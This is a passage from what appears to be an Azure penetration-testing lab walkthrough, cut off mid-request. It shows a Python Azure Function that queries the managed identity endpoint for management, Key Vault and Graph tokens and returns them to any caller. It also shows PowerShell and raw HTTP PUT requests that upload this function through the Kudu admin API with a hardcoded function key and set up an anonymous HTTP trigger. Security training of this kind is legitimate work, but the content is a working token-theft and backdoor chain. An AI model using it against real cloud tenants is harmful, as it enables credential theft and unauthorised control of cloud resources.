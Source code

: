 ```http
    IDENTITY_ENDPOINT = os.environ['IDENTITY_ENDPOINT']
    IDENTITY_HEADER = os.environ['IDENTITY_HEADER']
    cmd = 'curl "%s?resource=https://management.azure.com&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
    management_token = os.popen(cmd).read()
    cmd = 'curl "%s?resource=https://vault.azure.net&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
    vault_token = os.popen(cmd).read()
    cmd = 'curl "%s?resource=https://graph.microsoft.com&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
    graph_token = os.popen(cmd).read()
    res = management_token + vault_token + graph_token
    return func.HttpResponse(res, status_code=200)
```

###### PowerShell
```powershell
$URL = "https://compositionprocessing.azurewebsites.net/admin/vfs/home/site/wwwroot/Student105/__init__.py"
$Params = @{
"URI" = $URL
"Method" = "PUT"
"Headers" = @{
"Content-Type" = "application/octet-stream"
"x-functions-key" = "7JGHkhp1cWbNdZbZmEsdSqwwu2p-pbG7afGcc55qNyWUAzFufM557w=="
}
}
$Body = @"
import logging, os
import azure.functions as func
def main(req: func.HttpRequest) -> func.HttpResponse:
    IDENTITY_ENDPOINT = os.environ['IDENTITY_ENDPOINT']
    IDENTITY_HEADER = os.environ['IDENTITY_HEADER']
    cmd = 'curl "%s?resource=https://management.azure.com&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
    management_token = os.popen(cmd).read()
    cmd = 'curl "%s?resource=https://vault.azure.net&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
    vault_token = os.popen(cmd).read()
    cmd = 'curl "%s?resource=https://graph.microsoft.com&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
    graph_token = os.popen(cmd).read()
    res = management_token + vault_token + graph_token
    return func.HttpResponse(res, status_code=200)
"@

Invoke-RestMethod @Params -UseBasicParsing -Body $Body
```

- The auditor will also create the function configuration that defines the type of Trigger that the created malicious function needs to execute the code.
###### Postman
```http
PUT /admin/vfs/home/site/wwwroot/Student105/function.json HTTP/1.1
Host: compositionprocessing.azurewebsites.net
Content-Type: application/octet-stream
x-functions-key: 7JGHkhp1cWbNdZbZmEsdSqwwu2p-pbG7afGcc55qNyWUAzFufM557w==
Content-Length: 392

{
    "bindings": [
        {
            "authLevel": "anonymous",
            "type": "httpTrigger",
```